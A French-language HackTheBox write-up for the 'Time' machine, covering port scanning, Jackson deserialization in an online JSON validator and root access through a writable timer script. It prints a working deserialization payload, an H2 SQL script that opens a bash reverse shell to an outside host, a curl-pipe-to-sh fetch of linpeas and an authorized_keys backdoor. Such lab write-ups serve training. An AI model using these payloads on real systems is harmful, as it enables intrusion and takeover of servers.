 ```yaml
---
title: " HackTheBox - [Time] "
description: Simple writeup of the Time box on Hackthebox.
---
```


![Time](https://media.discordapp.net/attachments/490431433559506954/832933487954231336/screenshot-193.png)


![r](https://cdn.discordapp.com/attachments/519930659620257797/832739076687134800/68747470733a2f2f692e696d6775722e636f6d2f344d37495777502e676966.gif)

## 0x1 - Scanning port


```sh
PORT STATE SERVICE VERSION 
22/tcp open ssh  OpenSSH 8.2p1 Ubuntu 4ubuntu (Ubuntu Linux;
protocol 2.0)
80/tcp open http Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Online JSON parser
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

On peut apercevoir qu'il y a le port ssh/22 et le port 80/http qui sont ouverts.

Nous allons jeter un coup d'œil au port http/80 pour voir ce qu'il y'a d'intéressant.


## 0x2 - Foothold


Nous voyons un embellisseur et un validateur json en ligne avec 2 options, "Beatify" et "Validate! (Beta)".

![A](https://media.discordapp.net/attachments/490431433559506954/832936431823224862/unknown.png)

J'ai intercepté les deux options dans burpsuite et je viens de saisir un échantillon de données ``JSON`` dans le champ de saisie, sélectionnez l'option ``Beautify`` et cliquez sur le bouton ``PROCESS`` . Nous pouvons voir que cela fonctionne. 

Maintenant, essayez la même chose sur ``"Validate! (Beta)"`` options : 


![a](https://media.discordapp.net/attachments/490431433559506954/832954307493756969/unknown.png)


Vous avez une erreur!

```sh
Validation failed: Unhandled Java exception:com.fasterxml.jackson.databind.exc.MismatchedInputException: Unexpected token(START_OBJECT), expected START_ARRAY: need JSON Array to containAs.WRAPPER_ARRAY type information for class java.lang.Object
```




J'ai collé le message d'erreur dans la barre de recherche google : ```Unexpected token(START_OBJECT), expected START_ARRAY: need JSON Array to containAs.WRAPPER_ARRAY type information for class java.lang.Object``` Je suis tombé sur un article de stackoverflow, expliquant l'erreur en question.
<a href="https://stackoverflow.com/questions/26251486/jackson-polymorphic-deserialization-expected-start-array">here article</a>



![ak](https://media.discordapp.net/attachments/490431433559506954/834008824389959690/unknown.png)



Après l'avoir lu, j'ai compris que l'erreur est liée à Jackson Polymorphic Deserialization expected START_ARRAY.

Maintenant, vous devez créer un fichier inject.sql et ajouter un reverse shell en bash pour qu'il me rappelle. :

```sh
CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException {
        String[] command = {"bash", "-c", cmd};
        java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(command).getInputStream()).useDelimiter("\\A");
        return s.hasNext() ? s.next() : "";  }
$$;
CALL SHELLEXEC('bash -i &>/dev/tcp/10.10.14.90/1337 0>&1 &')
```

Maintenant démarrer un listenner avec netcat :

```sh
nc -nvlp 1337
listening on [any] 1337 ...
```

Et injecter votre payload sur l'option : "Validate!(Beta)".

```sh
[“ch.qos.logback.core.db.DriverManagerConnectionSource”,{“url”:”jdbc:h2:mem:;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM ‘http://IP:PORT/inject.sql'”}]
```

Et vous obtenez un reverse shell sur l'user pericles.

```sh
listening on [any] 1337 ...
connect to [10.10.14.90] from (UNKNOWN) [10.10.10.214] 42212
```


Pour avoir un reverse shell stable type :

```sh
$python -c “import pty;pty.spawn(‘/bin/bash’)”
$export TERM=xterm
```

Vous obtenez l'user flag :

```
pericles@time:/home/pericles$ cat user.txt 
cat user.txt
7u7243a41d508868b8c935c47b554ad7
```
## 0x3 - Privilege Escalation

Maintenant nous allons upload Linpeas ( LinPEAS est un script qui recherche des chemins possibles pour augmenter les privilèges sous Linux ).

Installer linpeas : <a href="https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS">Linpeas</a>

Start un serveur python où se trouve votre fichier linpeas.sh et curl vers la machine cible.

```
sudo python -m SimpleHTTPServer 80 #Host
curl 10.10.10.10/linpeas.sh | sh #Victim
```

Nous pouvons voir que root a accédé à ce fichier: «/usr/bin/timer_backup.sh». Qui appartient à votre utilisateur et est accessible en écriture et writeable.


![ak](https://media.discordapp.net/attachments/490431433559506954/834009150085136405/unknown.png


Vous devez créer votre clé ssh, ajouter notre clé publique SSH au fichier allowed_keys sur le serveur. Pour ce faire, suivez les commandes suivants :


```sh
ssh-keygen
( no passphrase ) 
Copier votre clée id_rsa.pub key 
Et effectuez cette command sur la machine cible. : echo "echo id_rsa.pub >> /root/.ssh/authorized_keys" >> /usr/bin/timer_backup.sh
```

Maintenant vous faites un ``chmod 600`` pour avoirs les permissions puis vous vous connecter au port ssh avec la clée ``id_rsa`` : 


```sh
chmod 600 id_rsa && ssh -i id_rsa root@10.10.10.214
```

Done ! 

```sh
root@time:~# whoami
root
root@time:~# id
uid=0(root) gid=0(root) groups=0(root) 
```

Nous avons root la machine avec succès.

```sh
root@time:~# cat /root/root.txt
adsd9hf0c86b8786477033415e3018a4
```

##  Summary Of Knowledge : 

- Java Deserialization
- System Timer Exploitation

## About me :

- Post author : x0ld
- Github : https://github.com/x0ld
- Twitter : @x0ld7
- HTB : https://www.hackthebox.eu/home/users/profile/491690


